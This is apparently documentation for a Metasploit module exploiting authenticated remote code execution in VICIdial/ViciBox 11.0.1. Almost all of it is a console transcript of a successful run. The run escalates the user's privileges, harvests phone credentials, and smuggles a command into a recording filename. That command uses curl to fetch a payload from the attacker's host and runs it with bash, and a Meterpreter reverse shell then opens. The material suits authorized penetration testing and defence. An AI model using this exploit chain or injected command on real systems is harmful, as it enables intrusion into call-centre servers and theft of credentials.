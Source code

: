 1. Do: `run`
1. The module will exploit the Remote Code Execution

## Options

## Scenarios

### ViciBox 11.0.1

Using `cmd/linux/http/x64/meterpreter_reverse_tcp`:

```
msf6 exploit(unix/webapp/vicidial_agent_authenticated_rce) > run http://192.168.1.4 username=6666 password=password
[*] Exploit running as background job 7.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/vicidial_agent_authenticated_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Using URL: http://192.168.1.36:5000/W5akuCuThi0ZAuR
[*] Server started.
[*] Payload is ready at /
[+] Authenticated successfully as user '6666'
[+] Updated user settings to increase privileges
[+] Updated system settings
[+] Created dummy campaign 'Shanahan Group'
[+] Updated dummy campaign settings
[+] Created dummy list 'Shanahan Group List' for campaign '134542'
[+] Found phone credentials: Extension=callin, Password=test, Recording Extension=8309
[+] Retrieved dynamic field names: MGR_login20240918, MGR_pass20240918
[+] Entered "manager" credentials to override shift enforcement
[+] Authenticated as agent using phone credentials
[+] Session Name: 1726664220_8300defaul12350341, Session ID: 8600051
[*] Generated malicious command: $(curl$IFS-k$IFS@192.168.1.36:5000$IFS-o$IFS.Ip7&&bash$IFS.Ip7)
[*] MonitorConf command sent for Channel Local/8309@default on 192.168.1.4
Filename: $(curl$IFS-k$IFS@192.168.1.36:5000$IFS-o$IFS.Ip7&&bash$IFS.Ip7)
RecorDing_ID: 5
 RECORDING WILL LAST UP TO 60 MINUTES

[+] Stopped malicious recording to prevent file size from growing
[*] Waiting for 300 seconds to allow the cron job to execute the payload...
[*] Received request at: /, Client Address: 192.168.1.4
[*] Sending response to 192.168.1.4 for /
[*] Sending stage (3045380 bytes) to 192.168.1.4
[*] Meterpreter session 45 opened (192.168.1.36:1337 -> 192.168.1.4:7040) at 2024-09-18 16:56:48 +0200

msf6 exploit(unix/webapp/vicidial_agent_authenticated_rce) > sessions 45
[*] Starting interaction with 45...

meterpreter > sysinfo 
Computer     : 192.168.1.4
OS           :  (Linux 5.14.21-150500.55.12-default)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
